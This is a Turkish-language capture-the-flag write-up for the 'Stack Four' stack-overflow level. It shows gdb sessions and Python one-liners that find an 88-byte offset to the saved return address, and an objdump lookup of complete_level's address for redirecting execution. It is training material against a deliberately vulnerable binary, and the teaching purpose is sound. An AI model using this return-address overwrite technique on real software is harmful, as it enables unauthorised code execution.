

# Stack Four Writeup

# `Source Code`

Önceki soruda olduğu gibi 64 karakteri doldurduktan sonra üstüne yazdığımız değerin program içerisinde çağrılması gibi bir durum burada söz konusu değil. Bu yüzden burada `eip` değerini değiştirmemiz gerekecek. Programa kaç karakter yazdıktan sonra stack'de `eip registerına` müdahale edebileceğimizi bulmak için kolları sıvayalım ve programımızı gdb ile açalım

    gdb -q stack-four
    (gdb) disas start_level
    (gdb) b *0x0000000000400649  // gets fonksiyonu çalıştıktan sonraki mov işleminin adresi
    (gdb) run <<< $(python -c 'print "A"*64+"BBBB"*4+"CCCC"+"DDDD"+"EEEE"+"FFFF"+"GGGG"+"HHHH"')
    (gdb) x/50x $sp
    (gdb) info frame

**

Sonuca bakacak olursak `saved rip = 0x4646464645454545`. Yani biz 88 byte'dan sonra `eip`'nin üzerine adres yazabiliriz.

NOT : Burada gdb ile uğraşamam diyenler için alternatif bir yol daha yazayım. Terminalde `python -c "print 'A'*72+'BBBB'+'CCCC'+'DDDD'+'EEEE'+'FFFF'" | ./stack-four` komutunu çalıştırdıktan sonra `sudo dmesg | tail -1` komutunu girerseniz 0x46464646 yani FFFF kısmında dönüş yaptığını ve 72+16'dan 88 karaktere ihtiyacımız olduğunu görebilirsiniz

Yazacağımız adresi bulmak için `objdump -S stack-four | grep complete_level` komutunu girelim.

Adresimizin `0x40061d` olması gerekecek. O halde 88 karakter yazdıktan sonra little-endian olarak adresimizi de yazalım.

NOT : gdb ile açtıktan sonra hata alanlar için terminalde bu komutu girmeniz yeterli olacaktır. `export LC_CTYPE=C.UTF-8`
